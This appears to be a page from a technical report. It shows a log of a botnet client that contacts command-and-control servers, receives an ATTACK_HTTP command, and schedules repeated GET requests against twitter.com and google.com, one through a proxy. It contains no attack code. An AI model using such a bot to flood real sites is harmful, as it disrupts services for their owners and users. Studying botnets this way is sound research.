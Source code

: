 \begin{verbatim}
  18:03:59.537 [main] INFO Bot initialized with ID=20-68-9D-C3-76-EB-5261@debian
  18:03:59.540 [main] INFO Joining botnet...
  18:03:59.541 [main] INFO Loading bot configuration
               from C&C at invalid/botinit.json...
  18:03:59.549 [main] WARN Cannot connect to C&C at invalid/botinit.json,
               waiting for reconnection...
  18:03:59.551 [main] INFO Waiting for polling 2 SECONDS...
  18:04:01.552 [main] INFO Loading bot configuration
               from C&C at invalid/botinit.json...
  18:04:01.553 [main] WARN Cannot connect to C&C at invalid/botinit.json,
               waiting for reconnection...
  18:04:01.554 [main] INFO Waiting for polling 3 SECONDS...
  18:04:04.555 [main] INFO Loading bot configuration
               from C&C at invalid/botinit.json...
  18:04:04.556 [main] WARN Cannot connect to C&C at invalid/botinit.json,
               waiting for reconnection...
  18:04:04.557 [main] INFO Waiting for polling 2 SECONDS...
  18:04:06.557 [main] INFO Loading bot configuration
               from C&C at invalid/botinit.json...
  18:04:06.559 [main] WARN Maximum number of reconnections reached
               for C&C at invalid/botinit.json
  18:04:06.559 [main] INFO Loading bot configuration
               from C&C at controller/botinit.json...
  18:04:06.668 [main] INFO Bot is up and running
  18:04:06.755 [main] INFO Received command ATTACK_HTTP
               with params {attacks=[
               HttpAttack(method=GET, target=http://www.twitter.com,
               proxy=null, properties={},
               executions=1, period=null),
               HttpAttack(method=GET, target=http://www.google.com,
               proxy=31.220.56.101:80, properties={User-Agent=MyAwesomeBot},
               executions=3, period=10-15:SECONDS)]}
               from C&C at controller/botcmd.json
  18:04:06.756 [main] INFO Executing command ATTACK_HTTP
               with params {attacks=[
               HttpAttack(method=GET, target=http://www.twitter.com,
               proxy=null, properties={},
               executions=1, period=null),
               HttpAttack(method=GET, target=http://www.google.com,
               proxy=31.220.56.101:80, properties={User-Agent=MyAwesomeBot},
               executions=3, period=10-15:SECONDS)]}
               from C&C at controller/botcmd.json
  18:04:06.756 [main] INFO Scheduling attack against http://www.twitter.com...
  18:04:06.764 [main] INFO Attack scheduled
  18:04:06.764 [main] INFO Scheduling attack against http://www.google.com...
  18:04:06.776 [main] INFO Attack scheduled

\end{verbatim}
